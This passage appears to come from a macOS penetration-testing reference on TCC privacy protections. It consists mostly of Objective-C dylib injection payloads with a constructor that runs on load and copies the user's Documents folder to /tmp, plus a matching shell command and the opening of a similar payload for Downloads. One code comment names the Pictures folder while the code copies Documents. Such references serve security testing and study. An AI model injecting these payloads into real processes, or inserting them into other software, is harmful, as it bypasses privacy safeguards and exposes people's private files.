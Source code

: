 ```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Documents"];
    NSString *tmpPhotosPath = @"/tmp/documents";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/`Documents to `/tmp/documents`.

```bash
cp -r "$HOME/Documents" "/tmp/documents"
```
{% endtab %}
{% endtabs %}

### Downloads

* **Entitlement**: None
* **TCC**: `kTCCServiceSystemPolicyDownloadsFolder`

{% tabs %}
{% tab title="ObjetiveC" %}
Copy `$HOME/Downloads` to `/tmp/downloads`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    
```